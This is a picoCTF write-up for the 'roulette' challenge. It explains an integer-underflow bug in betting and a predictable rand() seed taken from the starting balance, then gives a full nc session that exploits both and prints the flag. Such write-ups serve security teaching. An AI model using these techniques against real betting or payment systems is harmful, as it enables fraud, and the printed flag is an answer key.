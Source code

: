 # roulette
General Skills - 350 points

## Challenge 
> [This Online Roulette Service is in Beta](roulette). Can you find a way to win $1,000,000,000 and get the flag? 

> [Source.](roulette.c) Connect with nc 2018shell2.picoctf.com 48312

## Hint
> There are 2 bugs!


## Solution

#### Bug 1

There is a bug with underflowing the bet money

	How much will you wager?
	Current Balance: $1719 	 Current Wins: 0
	> 4294967295
	Choose a number (1-36)
	> 1

	Spinning the Roulette for a chance to win $4294967294!

	Roulette  :  27

	Nice try..
	Stop wasting your time.

	How much will you wager?
	Current Balance: $1720 	 Current Wins: 0

So we can enter a large number and lose and we will get the money

	Welcome to ONLINE ROULETTE!
	Here, have $3694 to start on the house! You'll lose it all anyways >:)

	How much will you wager?
	Current Balance: $3694 	 Current Wins: 0
	> 3294967295
	Choose a number (1-36)
	> 1

	Spinning the Roulette for a chance to win $2294967294!

	Roulette  :  8 

	Not this time..
	If you keep it up, maybe you'll get the flag in 100000000000 years

	*** Current Balance: $1000003695 ***
	Wait a second... You're not even on a hotstreak! Get out of here cheater!


#### Bug 2

The seed is actually used as the starting money

	long get_rand() {
	  long seed;
	  FILE *f = fopen("/dev/urandom", "r");
	  fread(&seed, sizeof(seed), 1, f);
	  fclose(f);
	  seed = seed % 5000;
	  if (seed < 0) seed = seed * -1;
	  srand(seed);
	  return seed;
	}

	// in main()
	  cash = get_rand();

Hence, we can write a simple program to get our bet numbers.

	./solve-get_spin_value

	Initial value: 2719
	Spin #1: 9
	Spin #2: 36
	Spin #3: 8


----

#### Procedure

- We need to WIN 3 times with bet of $0
- We need to LOSE 1 time with bet of $3294967295 


----

	$ nc 2018shell2.picoctf.com 48312
	Welcome to ONLINE ROULETTE!
	Here, have $2719 to start on the house! You'll lose it all anyways >:)

	How much will you wager?
	Current Balance: $2719 	 Current Wins: 0
	> 0
	Choose a number (1-36)
	> 9

	Spinning the Roulette for a chance to win $0!

	Roulette  :  9 

	You.. win.. this round...

---

	How much will you wager?
	Current Balance: $2719 	 Current Wins: 1
	> 0
	Choose a number (1-36)
	> 36

	Spinning the Roulette for a chance to win $0!

	Roulette  :  36

	Congrats!

---

	How much will you wager?
	Current Balance: $2719 	 Current Wins: 2
	> 0
	Choose a number (1-36)
	> 8

	Spinning the Roulette for a chance to win $0!

	Roulette  :  8 

	You.. win.. this round...

---

	How much will you wager?
	Current Balance: $2719 	 Current Wins: 3
	> 3294967295
	Choose a number (1-36)
	> 1

	Spinning the Roulette for a chance to win $2294967294!

	Roulette  :  21

	Better luck next time...
	Just give up!

	*** Current Balance: $1000002720 ***
	Wow, I can't believe you did it.. You deserve this flag!
	picoCTF{1_h0p3_y0u_f0uNd_b0tH_bUg5_8fb4d984}


## Flag

	picoCTF{1_h0p3_y0u_f0uNd_b0tH_bUg5_8fb4d984}
